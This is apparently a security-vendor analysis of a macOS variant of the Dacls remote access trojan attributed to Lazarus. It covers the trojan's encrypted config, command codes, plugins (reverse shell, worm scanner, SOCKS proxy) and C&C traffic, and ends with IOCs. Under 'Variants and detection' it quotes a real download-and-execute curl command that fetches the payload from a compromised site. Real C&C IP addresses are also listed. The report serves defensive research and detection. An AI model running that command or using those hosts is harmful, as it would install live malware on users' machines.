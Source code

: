  Config File The config file contains the information about the victim’s machine such as Puid, Pwuid, plugins and C&C servers. The contents of the config file are encrypted using the AES encryption algorithm.      Both Mac and Linux variants use the same AES key and IV to encrypt and decrypt the config file. The AES mode in both variants is CBC.    The config file location and name are stored in hex format within the code. The name of the config file pretends to be a database file related to the Apple Store: “Library/Caches/Com.apple.appstore.db”    The “IntializeConfiguration” function initializes the config file with the following hardcoded C&C servers.     The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227